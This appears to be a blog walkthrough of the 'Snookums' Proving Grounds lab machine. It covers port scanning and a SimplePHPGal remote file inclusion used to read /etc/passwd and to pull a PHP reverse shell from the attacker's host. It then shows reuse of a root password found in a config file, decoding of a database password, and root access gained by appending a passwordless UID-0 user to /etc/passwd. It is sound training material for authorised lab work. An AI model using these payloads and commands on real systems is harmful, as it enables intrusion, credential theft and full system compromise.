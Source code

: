 ```yaml
---
layout: writeup
title: Snookums - Proving Grounds
date: 2024-07-22 13:32:20 +0300
description: A Writeup of the Snookums Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Today I'll be doing a walkthrough for Snookums, an Intermediate Proving Grounds box I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). As usual, I get started with an nmap scan and a quick search of the IP address in the URL bar in case there is a web server on port 80. And there is:

![Snookums_1.png](/assets/images/Snookums/Snookums_1.png){: .responsive-image}

It looks like an image upload application, though I can't find any immediate way to upload it. I do a directory search and check the nmap scan results. 

```
Nmap scan report for 192.168.153.58
Host is up (0.21s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
```

I couldn't get anywhere with 21 (FTP allowed anonymous logon by kept hanging), 445 (no interesting shares on SMB), or 3306 (couldn't access from my IP - more on that later). In the directory search, the only thing that really sticks out is the README.txt file. 

![Snookums_2.png](/assets/images/Snookums/Snookums_2.png){: .responsive-image}

This comes in handy because it makes it easier to find exploits. For example, when searching "Simple PHP" exploit-db returns 74 entries, but "Simple PHP Photo" returns 0. "SimplePHPGal" however, returns one, an RFI exploit. I use it to check the contents of `etc/passwd` using this search: `http://192.168.153.58/image.php?img=/etc/passwd`. This shows us a `michael` user, but unfortunately I can't find any ssh keys or a local.txt in michael's /home folder. I also tried looking around the server for config files, but I couldn't find anything at all. I also tried including a reverse shell from my machine, but I couldn't get it to execute, in retrospect perhaps because of the port (4444): `http://192.168.153.58/image.php?img=http://192.168.45.235/ivan4444.php`

 I started googling around for more, and I found this [exploit](https://github.com/beauknowstech/SimplePHPGal-RCE.py). I couldn't get it working either, but eventually I realized that the target would download the reverse shell when I served it from port 80, but not from port 4444 or 8080. I figured there must be some kind of firewall, so I served it from port 80 and had it call back to port 3306, assuming that would work because there is a MySQL server on the target. That worked.

After gaining access to the machine, I searched around and used my favorite autoenum scripts, linpeas and lse, but I didn't see anything particularly interesting for the `apache` user I had the shell for. I also noticed that I couldn't read michael's home folder, suggesting that maybe I would need to switch to that user prior to switching to root. Otherwise switching to root would be the only way to get both flags, unusual for a lab like this. I started manually enumerating the /var folder to see if I could find anything, and I found this in `/var/www/html/db.php`:

![Snookums_3.png](/assets/images/Snookums/Snookums_3.png){: .responsive-image}

A root password - nice. Of course I tried `su root` immediately, but it didn't work, so I checked out the mysql databse with`mysql -u root -p` using the password above. I enumerated the databases and tables, ultimately using table: `SimplePHPGal`to  `SELECT * FROM users;` and find this: 

![Snookums_4.png](/assets/images/Snookums/Snookums_4.png){: .responsive-image}

We know michael is a user on the box, so that's a start. These look like base64, but when I decoded the password associated with the user, it still looked like base64, so I decoded it again and got what looked more like a password. See the second line in the top box is the decoded hash of the first line (shown in the second box):

![Snookums_5.png](/assets/images/Snookums/Snookums_5.png){: .responsive-image}

We are able to use this to `su michael` and even ssh. This get us the local.txt flag from michael's home folder. Because I got a new user, I run linpeas and lse again. Linpeas shows that `/etc/passwd` is writable. 

![Snookums_6.png](/assets/images/Snookums/Snookums_6.png){: .responsive-image}

We can use that to add a new user called `pop2`: `echo "pop2::0:0::/root:/bin/bash" >> /etc/passwd`. Then we can switch to pop2 and gain root access:

![Snookums_7.png](/assets/images/Snookums/Snookums_7.png){: .responsive-image}

And boom, we're done. Lessons learned: I need to do a better job of using ports that I know the target can use. For some of these boxes it doesn't matter at all, but it's been the sole reason certain exploits haven't worked on a few of them, and it just eats up so much time. Other than that, it just shows that it's important to do manual enumeration and re-enumerate once you get a new user. I liked this one. 

Update: I went back and retried the initial exploit from exploit-db. It works if you use two different ports that the target can connect to. You have to use two different ports, one to serve the reverse shell, and a different one for the shell itself, because the web server executes the file automatically. You can't use port 80 to serve, then close the simple server, then execute the shell which uses port 80. Working example using the Ivan Sincek shell on port 80 served from port 3306:
`http://192.168.153.58/image.php?img=http://192.168.45.235:3306/ivan80.php
Glad I went back to confirm, now I know. 